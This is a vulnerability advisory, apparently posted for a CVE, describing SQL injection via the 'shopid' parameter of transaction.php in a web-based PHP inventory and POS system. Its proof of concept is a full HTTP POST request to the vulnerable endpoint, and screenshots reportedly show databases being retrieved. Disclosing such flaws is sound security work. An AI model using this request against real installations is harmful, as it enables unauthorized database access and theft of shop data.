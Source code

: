 # pos-system has sql injection in transcation.php

## supplier 
https://code-projects.org/web-based-inventory-and-pos-system-in-php-with-source-code/

## Vulnerability file
transaction.php

## describe

**Code analysis**   

In the transaction.php file of pos-system, the shopid parameters are obtained, and the SQL statement is concatenated to the SQL statement without filtering the execution, resulting in SQL injection vulnerabilities and server permissions

![image-2025](https://github.com/asd1238525/cve/blob/main/028b6d1b-50d2-4d96-a352-43dd1f3fc06b.png)


## POC

```
POST /pos/POS_webased/transaction.php HTTP/1.1
Host: 127.0.0.1:8089
Content-Length: 524
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8089
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarys33Gkdi0a7CVvPtE
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:8089/pos/POS_webased/transaction.php?success/id=
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=50c4181c3285d71201f052dad9f28262
Connection: close

------WebKitFormBoundarys33Gkdi0a7CVvPtE
Content-Disposition: form-data; name="shopid"

1
------WebKitFormBoundarys33Gkdi0a7CVvPtE
Content-Disposition: form-data; name="barcode"

1
------WebKitFormBoundarys33Gkdi0a7CVvPtE
Content-Disposition: form-data; name="itemprice"

1
------WebKitFormBoundarys33Gkdi0a7CVvPtE
Content-Disposition: form-data; name="qtysold"

1
------WebKitFormBoundarys33Gkdi0a7CVvPtE
Content-Disposition: form-data; name="submit"

Submit
------WebKitFormBoundarys33Gkdi0a7CVvPtE--


```

**Result**
![image-2025](https://github.com/asd1238525/cve/blob/main/395169d4-61b2-4bd0-896d-b3e7520cfce4.png)
Get databases
![image-2025](https://github.com/asd1238525/cve/blob/main/6051506f-8f77-45e0-a8da-33ac6ecf3239.png)
